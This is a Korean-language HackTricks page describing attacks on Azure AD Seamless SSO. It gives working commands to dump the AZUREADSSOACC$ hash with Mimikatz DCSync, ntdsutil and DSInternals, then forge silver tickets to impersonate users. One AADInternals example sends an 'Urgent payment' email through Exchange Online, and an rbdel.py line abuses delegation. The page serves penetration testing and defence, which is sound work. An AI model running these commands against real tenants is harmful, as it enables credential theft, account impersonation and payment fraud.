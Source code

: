 # Az - Seamless SSO

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* HackTricks에서 **회사 광고를 보거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>

## 기본 정보

[문서에서 참조:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO)는 사용자가 기업 네트워크에 연결된 기업 장치에서 로그인할 때 자동으로 사용자를 로그인합니다. 이 기능을 사용하면 사용자가 Azure AD에 로그인할 때 비밀번호를 입력할 필요가 없으며, 대개 사용자 이름도 입력하지 않습니다. 이 기능을 사용하면 사용자가 추가적인 온프레미스 구성 요소 없이 클라우드 기반 애플리케이션에 쉽게 액세스할 수 있습니다.

<figure><img src="../../../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

기본적으로 Azure AD Seamless SSO는 사용자가 온프레미스 도메인에 가입한 PC에서 로그인할 때 사용자를 로그인합니다.

이는 [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) 및 [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md)에서 모두 지원됩니다.

데스크톱 SSO는 인증을 위해 **Kerberos**를 사용합니다. 구성되면 Azure AD Connect는 온프레미스 AD에 **AZUREADSSOACC`$`**라는 컴퓨터 계정을 생성합니다. `AZUREADSSOACC$` 계정의 비밀번호는 구성 중에 **평문으로 Azure AD로 전송**됩니다.

**Kerberos 티켓**은 비밀번호의 **NTHash (MD4)**를 사용하여 암호화되며, Azure AD는 전송된 비밀번호를 사용하여 티켓을 복호화합니다.

**Azure AD**는 Kerberos **티켓**을 수락하는 **엔드포인트**(https://autologon.microsoftazuread-sso.com)를 노출합니다. 도메인에 가입된 기기의 브라우저는 SSO를 위해 이 엔드포인트로 티켓을 전달합니다.

### 온프레미스 -> 클라우드

사용자 **`AZUREADSSOACC$`의 비밀번호는 절대 변경되지 않습니다**. 따라서 도메인 관리자는 이 계정의 **해시를 탈취**한 다음 **실버 티켓을 생성**하여 **어떤 온프레미스 사용자와도 Azure에 연결**할 수 있습니다:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
해시를 사용하여 이제 **실버 티켓을 생성**할 수 있습니다:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
다음 단계를 실행하여 실버 티켓을 활용할 수 있습니다:

1. **브라우저 시작:** Mozilla Firefox를 실행합니다.
2. **브라우저 구성:**
- **`about:config`**로 이동합니다.
- [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication)에 대한 설정을 다음 [값](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically)으로 설정합니다:
- `https://aadg.windows.net.nsatc.net`
- `https://autologon.microsoftazuread-sso.com`
3. **웹 애플리케이션에 액세스:**
- 조직의 AAD 도메인과 통합된 웹 애플리케이션을 방문합니다. 일반적인 예로는 [Office 365](https://portal.office.com/)가 있습니다.
4. **인증 프로세스:**
- 로그온 화면에서 사용자 이름을 입력하고 비밀번호 필드는 비워둡니다.
- 계속하려면 TAB 또는 ENTER를 누릅니다.

{% hint style="success" %}
이는 MFA가 활성화되어 있을 경우 MFA를 우회하지 않습니다.
{% endhint %}

#### ~~클라우드 전용 사용자를 위한 Kerberos 티켓 생성~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Azure AD Connect에 액세스할 수 있는 Active Directory 관리자는 **클라우드 사용자에 대한 SID를 설정**할 수 있습니다. 이렇게 하면 클라우드 전용 사용자에 대해서도 Kerberos **티켓을 생성**할 수 있습니다. 유일한 요구 사항은 SID가 올바른 [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\))여야 합니다.

{% hint style="danger" %}
클라우드 전용 관리자 사용자의 SID 변경은 현재 **Microsoft에 의해 차단**되었습니다.\
자세한 내용은 [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)을 확인하세요.
{% endhint %}

### 온프레미스 -> 클라우드 리소스 기반 제한된 위임을 통한 이동 <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

이 계정이 있는 컨테이너 또는 OU에서 컴퓨터 계정(`AZUREADSSOACC$`)을 관리할 수 있는 모든 사용자는 해당 계정에 대한 리소스 기반 제한된 위임을 구성하고 액세스할 수 있습니다.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## 참고 자료

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로에서 영웅까지 AWS 해킹을 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** 팔로우하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 여러분의 해킹 기술을 공유하세요.

</details>
